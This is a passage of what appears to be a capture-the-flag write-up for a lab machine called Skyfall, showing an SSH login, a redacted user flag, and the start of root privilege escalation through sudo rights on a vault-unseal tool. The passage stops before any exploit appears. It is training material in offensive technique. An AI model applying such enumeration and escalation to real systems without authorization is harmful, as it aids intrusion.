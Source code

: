 ```bash
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Aug 20 09:46:20 2024 from 10.10.14.106
askyy@skyfall:~$ 
```

> Note: the `-strict-host-key-checking no` is for vault ssh to not check the host certificate because vault uses sshpass to automatize the ssh connection and sshpass its not able to authorize an ssh connection. Another solution can be uninstalling sshpass and entering the OTP manually.

The user flag is available in the user's home:

```bash
askyy@skyfall:~$ cat user.txt 
79****************************f5
```

# Access as root

Looking at the sudo privileges, I can run vault-unseal with some parameters:

```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

That executable is from [here](https://github.com/lrstanley/vault-unseal). Its an utility to unseal vault data using tokens distributed in various instances.

For more information on how hashicorp vault unseals data check [this page](https://developer.hashicorp.com/vault/docs/concepts/seal#auto-unseal) but its not relevant for the exploitation.

Looking at the help panel, I can see for what are the parameters:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message
```

`-v` is for verbose output, `-c` is to specify the config file and `-d` **outputs debugging info into a file**. I will run it with -v:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
```